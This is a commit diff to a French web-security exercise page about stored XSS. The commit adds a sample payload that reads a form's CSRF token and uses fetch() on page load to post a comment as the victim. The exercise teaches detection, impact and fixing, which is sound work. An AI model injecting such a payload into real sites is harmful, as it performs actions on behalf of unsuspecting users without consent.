

Before and after one commit to TyTy-cf/2026-websecurity, a Markdown page: exercises/readme.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Payload example

````diff
--- a/exercises/readme.md
+++ b/exercises/readme.md
@@ -94,6 +94,25 @@
 2. **Vérifier si le payload survit à votre propre session.** Ouvrez la même page de sujet dans une fenêtre de navigation privée (ou déconnectez-vous et reconnectez-vous avec un autre utilisateur). Le payload s'exécute-t-il toujours pour un visiteur qui ne l'a pas soumis lui-même ? Qu'est-ce que cela vous apprend sur l'endroit où elle réside entre deux requêtes ?
 
 3. **Aller au-delà d'une simple popup : démontrer un impact réel.** Un simple `alert(1)` prouve l'exécution de code, mais ne démontre pas pourquoi cela est dangereux. Essayez d'illustrer une action effectuée *au nom de la victime* sans son consentement, par exemple un paylaod qui soumet un autre commentaire via `fetch()` lors du chargement de la page
+
+```ts
+<script>
+    window.addEventListener('load', () => {
+        const inputToken = document.querySelector('[name="comment[_token]"]').value;
+        if (inputToken) {
+            fetch(window.location.href, {
+                method: 'POST',
+                headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
+                body: new URLSearchParams({
+                    'comment[content]': 'posted automatically by XSS',
+                    'comment[submit]': '',
+                    'comment[_token]': inputToken,
+                }),
+            });
+        }
+    });
+</script>
+```
 
 4. **Mettre en place le correctif** : que faire pour éviter cette problématique ?
 
````
